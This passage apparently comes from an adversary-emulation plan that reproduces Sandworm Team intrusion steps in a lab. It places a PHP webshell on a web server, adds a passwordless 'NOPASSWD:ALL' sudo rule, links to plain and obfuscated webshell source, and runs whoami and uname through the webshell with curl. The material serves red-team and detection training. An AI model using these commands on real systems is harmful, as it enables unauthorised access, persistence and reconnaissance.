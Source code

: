 ```bash
ssh hoangtn8@192.168.30.233 "sudo mv /tmp/search.php /var/www/html/"
```

`Configure sudo on CentOS to allow hoangtn8 execute commands without a password`

```powershell
sudo visudo

# add the following line at the end of the file
hoangtn8 ALL=(ALL) NOPASSWD:ALL
```

[Source Code](../../Resources/phpWebShell/webShell.php)

[Source Code - Obfuscated](../../Resources/phpWebShell/obfuscated_webShell.php)

### :microscope: Cited Intelligence

* https://www.us-cert.gov/ics/alerts/IR-ALERT-H-16-056-01

* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf

<br>

## Step 12 - Initial Discovery

:microphone: `voice track`

Sandworm enumerates information about the compromised system by issuing shell commands through the PHP webshell.

Executed commands include whoami, uname, ls, among others.

### :biohazard: Procedures

Execute `whoami` from P.A.S. webshell.

`unset all proxy emvironment variables`

```bash
# Sandworm Team has collected the username from a compromised host.

curl --insecure "https://192.168.30.233/search.php?cmd=whoami"
```

:information_source: The '--insecure' option is used so that curl ignores self-signed certificate warnings. Self-signed certificates are used on host Caladan/192.168.30.233 for the scenario.

Execute `uname -a` from P.A.S. webshell.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

curl --insecure "https://192.168.30.233/search.php?cmd=uname+-a"
```

Execute `ls -lsahR` from P.A.S. webshell.
